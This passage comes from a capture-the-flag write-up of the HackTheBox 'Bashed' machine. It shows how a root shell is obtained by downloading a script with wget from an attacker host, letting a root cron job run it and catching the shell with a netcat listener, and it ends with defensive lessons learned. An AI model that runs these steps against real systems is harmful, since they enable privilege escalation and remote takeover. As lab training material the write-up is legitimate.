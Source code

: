 • Change the file permission to rwx for everyone.

chmod 777 test.py

• In the same directory, start a simple HTTP server.

python -m SimpleHTTPServer 9005


• In the target (bashed) machine under the scripts directory, download the file.

• wget http://10.10.14.30:9005/test.py

• Now, go back to your attack (kali) vm and start up a listener with the same port specified in the test.py script.

nc -lnvp 5555


• Wait for a minute or so for the cron job to execute and voila! We have a shell running as root!

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/2/18.jpg)


• Change to the root directory and get the root flag.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/2/19.jpg)


Lessons Learned
• The developer should not have had a web shell that publicly gives access to his system.

• This one is a no brainer and is probably something you won’t see in real life.

• Misconfiguring permissions can lead to disastrous consequences.

• Why was the web daemon user (www-data) allowed to become a more privileged user (scriptmanager)? Similarly, why was a non-root user created script (test.py) executed as root? These are known as security misconfigurations. 

• The developer should have conformed to the principle of least privilege and the concept of separation of privileges.

• What allowed us to get an initial foothold, is the fact that we found the /dev directory that contained the web shell.

• I imagine the developer thought no one would find this directory since it is not directly linked on the website. However, gobuster found it in mere minutes.

• The developer should not have sensitive publicly accessible directories available on his server.


